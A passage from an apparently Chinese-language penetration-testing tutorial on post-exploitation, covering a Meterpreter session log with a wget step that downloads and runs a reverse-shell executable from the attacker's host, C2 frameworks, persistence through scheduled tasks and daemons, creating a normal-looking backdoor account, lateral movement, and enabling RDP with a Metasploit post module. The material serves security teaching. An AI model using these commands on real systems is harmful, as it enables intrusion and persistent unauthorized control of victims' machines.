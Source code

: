 ```
[*] Sending stage (180291 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.3:5555 -> 192.168.1.2:60052) at 2020-05-16 07:20:35 -0400
smeterpreter > ls


被入侵系统  192.168.1.2
第二步
wget http://192.168.1.3/rshell.exe
命令行启动 rshell.exe
```

## Command and Control
这个Command and Control有时也被简写为CnC/C2/C&C 。这是一个中间件，攻击者直接控制C2，向C2发送命令以及接收信息，而C2把命令转发给其他被控制设备。

Attack <----> C2 <----> Compromised Machine

一些开源的C2框架有：socat, wsc2, WMImplant, DropboxC2, TrevorC2, Twittor, DNSCat2

## 创建调度任务
在windows环境，可以通过在“开始”中搜索 任务计划程序，设置windows下的计划任务。在Linux环境，可以配置/etc/crontab 来设置计划任务。

## 创建守护进程
攻击者入侵系统后，可以上传后门，远程控制木马到系统，并设置为守护进程启动。另外为了持续控制目标系统，还需要配置进程开机自启动，或者是加入到调度任务。

## 创建新用户
攻击者入侵系统后，如果能获取到root或者administrator权限，可以添加一个用户，攻击者可以使用该用户登录控制被入侵的系统。另外添加的用户名最好表现的很正常，最好不要用比如hacker，pentest，等等看上去就是恶意用户的用户名，最后后门用户的密码最好配置为强密码。

## 内网漫游（Lateral Movement）
内网漫游（Lateral Movement）也被称为跳板（Pivoting），内网漫游的意思是攻击者入侵了一台机器，以这个机器为跳板，对机器所在的网络进行横向漏洞挖掘和利用。如果目标网络没有做好网段隔离，就很存在内网漫游威胁。

## 远程访问协议
远程访问分为终端和UI两大类，终端如ssh，telnet等，而UI如Microsoft RDP，Apple Remote Desktop， VNC，X Server Desktop

下面介绍一下通过metasploit来使能远程RDP，前面反弹shell有介绍过用meterpreter来连接目标系统，攻击者首先通过msfvenom生成一个后门进程，把进程传送给被攻击系统，本地通过msf监听反弹shell，在被攻击系统执行后门进程，反弹shell到攻击者。此时攻击者已经通过meterpreter控制目标系统，执行
```
# 首先配置enable_rdp的options
msf > use post/windows/manage/enable_rdp

# 接下来通过meterpreter连接到被入侵系统，这个在前面反弹shell中有讲过，本处不再重复

# 最后执行下面命令开启被入侵系统RDP服务，在被入侵系统的“系统属性--远程--远程桌面”可以确认远程是否被打开
meterpreter > run post/windows/manage/enable_rdp 
```

## windows下的post-exploitation
### PowerShell
PowerShell支持非常多命令，比如get-hostfix, get-command, get-process, get-service等
